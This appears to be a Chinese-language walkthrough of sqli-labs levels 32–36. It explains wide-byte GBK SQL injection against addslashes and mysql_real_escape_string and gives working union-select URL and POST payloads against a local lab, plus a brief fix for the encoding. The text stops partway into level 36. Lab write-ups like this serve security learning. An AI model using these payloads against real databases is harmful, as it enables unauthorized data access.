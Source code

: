第32关 

过滤了 “ ‘ \反斜线符号; 

原理上使用了 

mysql_query("SET NAMES gbk"); 

考虑宽字节注入。 

原理上的payload 是 -111%df%27 union select 1,user(),3 — - 

本次没有成功 





##第33关 

经过了addslashes()函数，还又存在mysql_query(“set names gbk”); 所以存在宽字节注入 

宽字节注入 

http://127.0.0.1/sqli-labs/Less-33?id=-1%df' union select 1,user(),3 -- - 

真正的加固方法，应该是统一set 了编码，还要设置character_set_client=binary  

问题主要出在连接层。 





##第34关 

也是宽字节注入，POST型 

因为源代码中的select 是select 了两个字段，所以后面union 也需要是两个字段，而不是表中的3列。 

源代码：mysql_query("SET NAMES gbk"); 

​    @$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1"; 

payload 

uname=admin%df%27 union select 1,user()-- -&passwd=admin&submit=Submit 



##第35关 

绕过addslashes 

$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1”; 

源代码中并没有使用单引号闭合，所以addslashes() 转义就失去了意义，所以就不用构造单撇了 

http://127.0.0.1/sqli-labs/Less-35?id=-1 union select 1,user(),3-- - 





##第36关 

绕过mysql_real_escape_string 

函数释义，对特定字符进行转义操作，编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z 
